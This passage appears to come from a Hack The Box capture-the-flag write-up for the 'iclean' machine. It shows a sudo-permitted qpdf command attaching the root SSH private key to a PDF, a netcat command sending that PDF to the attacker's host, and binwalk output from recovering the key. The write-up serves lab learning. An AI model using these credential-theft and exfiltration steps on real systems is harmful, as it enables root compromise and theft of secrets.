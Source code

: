 There is an interesting function called `add-attachment`. After reading the documentation and testing it lead to the below series of commands.

### Adding root SSH keys to pdf as attachment
Blindly hoping there is a root SSH key on the machine and trying to attach it to the PDF. No error messages saying the file cannot be found which is a good sign.

```
consuela@iclean:~$ sudo qpdf --add-attachment /root/.ssh/id_rsa -- sample.pdf outfile.pdf
consuela@iclean:~$ ls
outfile.pdf  sample.pdf  user.txt
```
### Transferring pdf with netcat
Transferred the file over to my local machine with netcat. After opening the PDF I could not see any attachments. If attempted to grep the contents of the  PDF for keywords such as "SSH", "PRIVATE" or "KEY" it returned a message saying the contents were binary. That message shows there is something there it only needs to be extracted correctly.

```
consuela@iclean:~$ cat outfile.pdf | nc 10.10.14.21 8000
```
### Binwalking PDF to extract text
Binwalk was used to parse the contents of the PDF from binary to plaintext as seen below. I used a fairly large PDF which created a lot of junk output. Using a smaller PDF would have prevented this.

```
┌──(kali㉿kali)-[~/hackthebox/iclean]
└─$ binwalk -Me outfile.pdf 

Scan Time:     2024-04-08 22:09:04
Target File:   /home/kali/hackthebox/iclean/outfile.pdf
MD5 Checksum:  14aa7f63f92e6dd9ea5372cb4d33d048
Signatures:    411

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PDF document, version: "1.5"
101           0x65            Zlib compressed data, default compression
2558          0x9FE           Zlib compressed data, default compression
3717          0xE85           Zlib compressed data, best compression
10668         0x29AC          Zlib compressed data, best compression
17624         0x44D8          Zlib compressed data, best compression
27371         0x6AEB          Zlib compressed data, best compression
34368         0x8640          Zlib compressed data, best compression
41330         0xA172          Zlib compressed data, best compression
53609         0xD169          Zlib compressed data, best compression
74077         0x1215D         Zlib compressed data, best compression
91374         0x164EE         Zlib compressed data, best compression
91781         0x16685         Zlib compressed data, best compression
92408         0x168F8         Zlib compressed data, best compression
92820         0x16A94         Zlib compressed data, best compression
93451         0x16D0B         Zlib compressed data, best compression
93829         0x16E85         Zlib compressed data, best compression
94445         0x170ED         Zlib compressed data, best compression
94859         0x1728B         Zlib compressed data, best compression
95491         0x17503         Zlib compressed data, best compression
95878         0x17686         Zlib compressed data, best compression
96502         0x178F6         Zlib compressed data, best compression
96878         0x17A6E         Zlib compressed data, best compression
97502         0x17CDE         Zlib compressed data, best compression
97913         0x17E79         Zlib compressed data, best compression
98548         0x180F4         Zlib compressed data, best compression
98925         0x1826D         Zlib compressed data, best compression
99542         0x184D6         Zlib compressed data, best compression
```